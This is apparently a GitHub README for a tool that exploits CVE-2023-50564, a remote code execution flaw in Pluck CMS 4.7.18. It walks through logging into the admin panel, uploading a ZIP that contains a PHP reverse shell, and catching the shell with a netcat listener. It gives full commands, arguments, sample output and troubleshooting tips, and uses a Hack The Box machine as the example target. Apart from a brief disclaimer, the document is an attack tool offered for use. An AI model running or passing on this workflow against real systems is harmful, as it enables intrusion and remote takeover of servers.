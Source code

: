 # CVE-2023-50564 - Pluck CMS v4.7.18 Remote Code Execution (RCE) Exploit

## Description

This script exploits a Remote Code Execution (RCE) vulnerability in **Pluck CMS v4.7.18**. The vulnerability allows a malicious user to upload a malicious PHP file to the server and execute it, gaining remote command execution on the target machine.

The script automates the entire process by:
1. Authenticating to the Pluck CMS admin panel using provided credentials.
2. Uploading a ZIP file that contains a malicious reverse shell PHP script.
3. Executing the PHP reverse shell, giving the attacker remote access to the target machine.

**Note:** The script requires a Netcat listener on the attacker's machine to receive the reverse shell.

---

## Prerequisites

Before running the script, ensure the following:
- **Netcat** is installed and a listener is set up to receive the reverse shell.
- You have the correct target **host**, **password**, **IP address**, and **port** for the reverse shell.
- You have access to the Pluck CMS admin panel on the target.

---

## Usage

```bash
./CVE-2023-50564 -h <host> -P <password> -i <IP> -p <port>
```

### Arguments:

- `-h <host>`: The target host (e.g., `greenhorn.htb`).
- `-P <password>`: The password for the Pluck CMS admin panel (e.g., `abcd123`).
- `-i <IP>`: The attacker's IP address to receive the reverse shell.
- `-p <port>`: The port on which the Netcat listener is running to capture the reverse shell.

### Example:

```bash
./CVE-2023-50564 -h greenhorn.htb -P ********* -i 10.10.16.7 -p 9001
```

---

## Steps:

1. **Set up Netcat listener**: On the attacker's machine, start a Netcat listener on the specified port:

   ```bash
   nc -nvlp <port>
   ```

   For example:
   
   ```bash
   nc -nvlp 9001
   ```

2. **Run the script**: Provide the required parameters to the script, including the host, password, IP address, and port.

   ```bash
   ./CVE-2023-50564 -h greenhorn.htb -P ********* -i 10.10.16.7 -p 9001
   ```

3. **Script Execution**: 
   - The script logs in to the Pluck CMS admin panel.
   - It uploads a ZIP file containing a reverse shell PHP script (`love.php`).
   - Once the ZIP file is uploaded, the reverse shell is executed on the target, and a connection is made to your Netcat listener.
   - A clean message will be shown: `"RCE is waiting for you, please go take a look."`, and the script will terminate after tracking the time taken.

4. **Access the Target**: Once the reverse shell is triggered, the connection will appear in your Netcat listener, giving you remote access to the target machine.

---

### POC

![image](https://github.com/user-attachments/assets/39a2d5be-0d82-4acb-9401-5fe2c7b421e3)


## Output Example

```bash
./CVE-2023-50564 -h greenhorn.htb -P ********* -i 10.10.16.7 -p 9001
Netcat listener detected on port 9001.
Downloading reverse shell PHP exploit...
updating: love.php (deflated 60%)
Exploit zipped as loverce.zip and original PHP file removed.
Extracted Cookie: PHPSESSID=somecookievalue
Login successful!
ZIP file uploaded successfully.
RCE is waiting for you, please go take a look.
Script terminated. Total time taken: 70 seconds.
```

---

## Requirements

- **cURL**: To interact with the Pluck CMS and upload files.
- **Netcat**: To listen for the reverse shell.

You can install `curl` and `netcat` using the following commands if they are not installed:

### Debian/Ubuntu:

```bash
sudo apt update
sudo apt install curl netcat
```

### Red Hat/CentOS/Fedora:

```bash
sudo yum install curl nc
```

---

## Disclaimer

This script is intended for educational and authorized penetration testing purposes only. Unauthorized use of this script is illegal and unethical. Always obtain proper authorization before exploiting any vulnerability on a system.

---

## Troubleshooting

1. **504 Gateway Time-out**: The script may encounter this error when attempting to execute the reverse shell, but this does not affect the success of the shell execution. The error is usually due to the target server taking too long to respond to the HTTP request, but the shell should still work.
   
2. **Netcat Listener Issues**: If you do not receive the reverse shell, ensure that your IP address and port are correctly set, and that there are no firewall restrictions preventing the target from connecting back to your machine.

3. **Script Fails to Login**: If the login to the CMS admin panel fails, verify the provided password and ensure that the CMS is accessible on the target machine.

---

Let me know if you'd like any further customization or clarification in the README!
